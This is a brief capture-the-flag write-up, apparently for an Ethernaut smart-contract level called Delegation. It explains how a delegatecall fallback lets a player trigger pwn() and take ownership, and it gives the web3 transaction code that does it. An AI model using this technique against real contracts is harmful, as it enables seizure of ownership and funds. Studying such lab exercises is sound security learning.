 # 6. Delegation

Goal :

- claim ownership of the contract

Methodology :

delegatecall executes code using the context of the caller. Therefore, we can we can use the fallback function of Delegation to trigger pwn() in Delegate and become the owner of Delegation.

````
await contract.sendTransaction({
	from:player, 
	to:contract.address, 
	data:web3.eth.abi.encodeFunctionSignature("pwn()")
})

````



